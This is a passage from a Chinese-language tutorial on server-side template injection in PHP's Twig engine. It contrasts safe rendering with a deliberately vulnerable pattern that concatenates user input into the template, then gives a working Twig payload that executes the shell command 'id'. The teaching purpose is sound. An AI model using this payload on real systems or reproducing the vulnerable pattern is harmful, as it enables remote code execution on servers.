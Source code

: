 | Smarty (secured)               | ×                        | ×     | ×               | ×         | ×          |
| Dust (> dustjs-helpers@1.5.0)  | ×                        | ×     | ×               | ×         | ×          |

[tplmap](https://github.com/epinna/tplmap)

## 代码原型

### php

Twig是php的一套模板渲染的组件，但是不规范的渲染参数输入方式，可能导致模板注入。

我们先思考下这里应该怎么写才对。

```php
<?php
　　require_once dirname(__FILE__).'\twig\lib\Twig\Autoloader.php';
　　Twig_Autoloader::register(true);
　　$twig = new Twig_Environment(new Twig_Loader_String());
　　$output = $twig->render("Hello {{name}}",array("name" => $_GET["name"]));  // 将用户输入作为模版变量的值
　　echo $output;
?>
```

我们来看看输入流转：

```
输入-->php字符串变量$_GET["name"]-->Twig模板渲染-->发现变量{{name}}-->找到变量name的绑定-->解析字符串-->渲染展示
```

再看看错误的写法。

```php
<?php
　　require_once dirname(__FILE__).'/../lib/Twig/Autoloader.php';
　　Twig_Autoloader::register(true);
　　$twig=newTwig_Environment(newTwig_Loader_String());
　　$output=$twig->render("Hello {$_GET['name']}");// 将用户输入作为模版内容的一部分
　　echo $output;?>
```

再看看输入流转：

```
输入-->php字符串变量$_GET["name"]-->拼接字符串"Hello {$_GET['name']}"作为新变量-->Twig模板渲染-->渲染展示
```

这样就可以进行攻击输入了

```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
```

SSTI的利用内容来自于[参考](https://www.cnblogs.com/bmjoker/p/13508538.html)。

**我们在代码层（php）的输入，导致了Twig模板层的数据流入侵到了控制流**

### python
